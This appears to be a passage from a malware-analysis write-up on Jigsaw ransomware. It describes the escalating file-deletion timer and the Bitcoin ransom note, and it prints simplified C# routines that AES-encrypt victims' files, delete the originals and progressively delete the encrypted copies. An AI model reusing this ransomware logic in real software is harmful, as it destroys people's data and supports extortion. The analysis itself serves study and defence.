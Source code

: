 What makes Jigsaw particularly malicious:
- Starts a timer that deletes files progressively
- Deletes a certain number of files every hour
- Increases the number of deleted files each hour
- Threatens to delete all remaining files after 72 hours
- Deletes 1000 files if the victim tries to terminate the process or restart the computer
#### Ransom Note

The ransom note displays:
- The iconic "Billy the Puppet" image
- A countdown timer
- Instructions for Bitcoin payment
- Warnings about file deletion
- A text field for entering the Bitcoin transaction ID
### Code Analysis

A simplified version of Jigsaw's core encryption function:

```csharp
private void EncryptFile(string file)
{
    byte[] fileContent = File.ReadAllBytes(file);
    using (RijndaelManaged AES = new RijndaelManaged())
    {
        AES.KeySize = 256;
        AES.BlockSize = 128;
        AES.Mode = CipherMode.CBC;
        AES.Padding = PaddingMode.PKCS7;
        AES.Key = encryptionKey;
        AES.IV = iv;
        
        using (MemoryStream ms = new MemoryStream())
        {
            using (CryptoStream cs = new CryptoStream(ms, AES.CreateEncryptor(), CryptoStreamMode.Write))
            {
                cs.Write(fileContent, 0, fileContent.Length);
                cs.FlushFinalBlock();
                
                byte[] encryptedData = ms.ToArray();
                File.WriteAllBytes(file + ".fun", encryptedData);
                File.Delete(file);
            }
        }
    }
}
```

The file deletion function that gives Jigsaw its distinctive behavior:

```csharp
private void DeleteFiles()
{
    int filesToDelete = hoursPassed * 1000; // Increases with time
    
    for (int i = 0; i < filesToDelete && i < encryptedFiles.Count; i++)
    {
        try
        {
            File.Delete(encryptedFiles[i]);
            deletedFiles.Add(encryptedFiles[i]);
            encryptedFiles.RemoveAt(i);
        }
        catch { }
    }
```